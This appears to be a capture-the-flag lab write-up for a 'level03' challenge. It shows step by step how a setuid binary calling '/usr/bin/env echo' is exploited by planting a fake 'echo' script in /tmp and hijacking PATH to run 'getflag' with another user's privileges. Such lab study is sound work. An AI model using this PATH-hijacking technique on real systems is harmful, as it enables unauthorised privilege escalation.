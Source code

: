 # Level03 : find flag03

## Tutorial 

1. Launching the `level03` binary : it says `Exploit me`
2. Checking the binary `strings ~/level03 | grep Exploit`:
   - result : `/usr/bin/env echo Exploit me`
   - we can see here that it loads the `env` for the command, we can use it by modifying the `$PATH`
3. Checking the permissions for `level03` binary, `ls -l level03` :  
   - result : `-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`
   - we can see here the `setuid` and `setgid` are set ! This means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`.
4. Checking available folders where we can write and execute scripts with `ls -l /` :
   - result : `d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp`
   - we can write and execute programs in the `/tmp` folder
5. Writing program in `/tmp/echo`, `cat /tmp/echo` :
   - result : `getflag`
   - permissions (`ls -l /tmp/echo`): `----r-x--- 1 level03 level03 8 Apr 10 08:10 /tmp/echo`
   - these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r` and `x`, then `getflag` is executed with the `uid` of `flag03`
6. Executing `PATH=/tmp:$PATH ~/level03` by passing `/tmp` as file containing binaries
7. get flag for level03 !

## Notes

- Create file `/tmp/echo`
  - content : `getflag`
- Execute `PATH=/tmp:$PATH echo lol`
  - result : `lol`
- Execute `PATH=/tmp:$PATH /usr/bin/env echo`
  - result :
```Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)```
- Summary : `/usr/bin/env` loads the environment variables of the user

## Additional resources 

- Permissions (suid, sgid, sticky bit)
  - https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
  - https://linux.goffinet.org/administration/securite-locale/permissions-linux/
  - https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
- Alias don't execute in scripts by default, need to set the shell as interactive :
  - possible other solution, doesn't work here (check link) : `alias echo=getflag`
  - https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script

